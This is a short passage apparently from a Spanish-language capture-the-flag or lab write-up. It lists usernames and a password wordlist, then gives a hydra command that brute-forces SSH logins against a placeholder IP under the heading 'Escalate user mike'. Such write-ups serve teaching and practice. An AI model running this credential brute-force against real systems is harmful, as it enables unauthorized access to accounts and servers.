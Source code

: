 ```
teresa
krystal
juan
john
misty
lara
james
dick
anna
```

> pass.txt

```
q27QAO6FeisAAtbW
H01n8X0fiiBhsNbI
oyS6518WQxGK8rmk
2n5kKKcvumiR7vrz
6G3UCx6aH6UYvJ6m
k2I9CR15E9O4G1KI
62D4hqCrjjNCuxOj
w9Y021wsWRdkwuKf
1vC35FcnMfmGsI5c
fL01z7z8MawnIdAq
vDKZtVfZuaLN8BEB7f
iakbmsaEVHhN2XoaXB
wv5awQybZTdvZeMGPb
wv5awQybZTdvZeMGPb
Kn4tLAPWDbFK9Zv2
SS2mcbW58a8reLYQ
e8v3JQv3QVA3aNrD
8RMVrdd82n5ymc4Z
STUK2LNwNRU24YZt
mvQnTzCX9wcNtzbW
A9n3XMuB9XmFmgr5
DX5cM3yFg6wJgdYb
yT9Hy2fhX7VhmEkj
aCSKXmzhHL9XPnqr
GUFTV4ERd7QAexxw
fMYFNFzCRMF6ceKe
w5dWfAqNNLtWVvcW
FVYtCpc8FGVHEBXV
```

Ahora vamos a realizar un ataque de fuerza bruta con `hydra` por `SSH` de esta forma:

## Escalate user mike

### Hydra

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```
